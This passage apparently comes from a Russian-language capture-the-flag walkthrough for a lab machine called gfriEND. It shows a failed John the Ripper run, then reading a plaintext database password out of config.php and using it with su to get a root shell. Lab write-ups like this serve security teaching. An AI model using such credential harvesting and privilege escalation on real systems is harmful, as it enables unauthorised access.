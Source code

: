 ```html
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
Proceeding with incremental:ASCII
```

>Из этого ничего не вышло, но все можно было сделать проще, т.к. пароль root хранился в файле config.php

```html
root@gfriEND://var/www/html/config# cat config.php 
?php

    $conn = mysqli_connect('localhost', 'root', 'ctf_pasti_bisa', 'ceban_corp');

alice@gfriEND://var/www/html/config$ su 
Password:
root@gfriEND://var/www/html/config# id
uid=0(root) gid=0(root) groups=0(root)
```
